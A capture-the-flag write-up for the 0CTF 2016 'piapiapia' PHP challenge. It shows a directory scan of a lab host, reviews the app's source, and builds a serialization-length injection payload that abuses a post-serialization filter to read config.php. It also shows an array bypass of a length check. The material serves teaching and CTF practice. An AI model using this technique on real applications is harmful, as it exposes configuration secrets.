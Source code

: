 ### References

- [@g0udan, piapiapia解题详细思路及复现, 2020-01-20](https://www.cnblogs.com/g0udan/p/12216207.html)
- [@frystal, [0CTF 2016]piapiapia, 2019-11-08](https://frystal.github.io/2019/11/08/0CTF-2016-piapiapia/)

**Tag: PHP unserialize, LFI, Code review**

1.Try sql injection so hard, just dirsearch :/

```tex
py .\dirsearch.py -e php,bak,zip -u http://192.168.200.129:8302 -t 20 -x 404

[22:15:44] Starting:
[22:15:59] 200 -    0B  - /config.php
[22:16:08] 200 -   11B  - /profile.php
[22:16:11] 301 -  185B  - /static  ->  http://192.168.200.129/static/
[22:16:12] 200 -   11B  - /update.php
[22:16:12] 301 -  185B  - /upload  ->  http://192.168.200.129/upload/
[22:16:12] 403 -  571B  - /upload/
[22:16:14] 200 -  392KB - /www.zip
```

we can found some interesting files like `www.zip`.

2.`$flag` variable stored inside `config.php`, may be we need to include or read this file to get the flag. It's easy to find that there are file operation functions `file_get_contents` in `profile.php`, and the parameter `$photo` is controllable:

```php
$profile=$user->show_profile($username);
if($profile  == null) {
    header('Location: update.php');
} else {
    $profile = unserialize($profile);
    $phone = $profile['phone'];
    $email = $profile['email'];
    $nickname = $profile['nickname'];
    $photo = base64_encode(file_get_contents($profile['photo']));
```

so if we change `$profile['photo']` to `config.php`, we can get the flag at profile with base64 decoded.

3.Since there is a unserialization operation, so elsewhere have serialization definitely. We can find it in `update.php`:

```php
if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {
    $username = $_SESSION['username'];
    ...if...
    $file = $_FILES['photo'];
    ...if...
    move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
    $profile['phone'] = $_POST['phone'];
    $profile['email'] = $_POST['email'];
    $profile['nickname'] = $_POST['nickname'];
    $profile['photo'] = 'upload/' . md5($file['name']);
    $user->update_profile($username, serialize($profile));
```

Regular expressions are used here to filter the data we submit, one of them that we noticed was a little bit different:

```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');
```

Use the `strlen` function to determine whether the nickname length exceeds 10, and we can easily bypass this restriction using array like `nickname[]=`.

Now we have preliminary ideas that we need to control serialized data make it can read `config.php` during unserialization.

4.Follow the `update_profile` function, in `class.php`:

```php
public function update_profile($username, $new_profile) {
    $username = parent::filter($username);
    $new_profile = parent::filter($new_profile);
    $where = "username = '$username'";
    return parent::update($this->table, 'profile', $new_profile, $where);
}
```

and the `filter`:

```php
public function filter($string) {
    $escape = array('\'', '\\\\');
    $escape = '/' . implode('|', $escape) . '/';
    $string = preg_replace($escape, '_', $string);

    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string);
}
```

The problem is, it's sanitized **after** being serialized,

> Any data with a certain structure may cause problems if the structure is disrupted after some processing.

the `filter` function replacing "where" with "hacker" changes the length of the string. Allowing us to replace part of serialized object with our content.

5.As mentioned above, We need replace photo file name with `config.php`:

```tex
";}s:5:"photo";s:10:"config.php";}
```

here are 34 characters, so we need input `where` 34 times and it replace to `hacker` increased string length by 34. Payload:

```python
>>> print('where' * 34 + '";}s:5:"photo";s:10:"config.php";}')
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

During `unserialize()`, it will automatically ignore the content that can be serialized correctly. So the rest of the content is discarded.

![](https://i.imgur.com/aE8bb2L.png)

go profile.php:

![](https://i.imgur.com/2VPYIdP.png)

